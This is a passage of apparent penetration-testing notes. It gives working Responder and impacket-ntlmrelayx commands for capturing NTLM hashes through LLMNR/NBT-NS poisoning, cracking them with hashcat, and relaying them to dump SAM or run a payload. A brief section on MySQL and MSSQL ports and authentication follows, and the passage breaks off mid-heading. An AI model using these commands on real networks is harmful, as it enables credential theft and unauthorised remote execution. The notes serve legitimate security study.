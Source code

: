 
### Forced Authentication Attacks : Capture NTLM hashes

In short, we setup a fake malicious SMB server then intercept any LLMNR and NBT-NS traffic and and capture the hashes in place.

Later, we have the possibility of cracking the hashes or perform other attacks.

```bash
responder -I <interface name>
```
All the captured hashes will be stored `/usr/share/responder/logs/` which can then be cracked using hashcat mode `5600`.

#### NTLM Relay attack
In short, it is relaying the captured hash to another host on the network wihtout cracking it. 

This can be done with Responder's `multiprelay.py` or `impacket-ntlmrelayx`.

First we set `SMB=OFF` on `Responder.conf` file and then run to dump SAM :

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Or to execute commands:
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c "PS payload"
```
***

# SQL Databases
MySQL runs on `TCP/3306` and MSSQL runs on `TCP/1433` and `UDP/1434` or on `TCP/2433` if it's running on "hidden" mode.

It is important to note that MSSQL supports two authentication types:
- Windows authentication Mode: This uses the credentials from Windows/AD which is secure and preferred.
- Mixed mode: Supports both AD and local SQL server accounts.

MySQL relies on traditional username/password login or via a Windows Authentication plugin.

Then based on the needs and usability, the admin chooses a way to login. Which is a window for misconfigurations.


## MySQL:

### Default Schema

- mysql
- information_schema
- performance_schema
- sys

### Typical path 
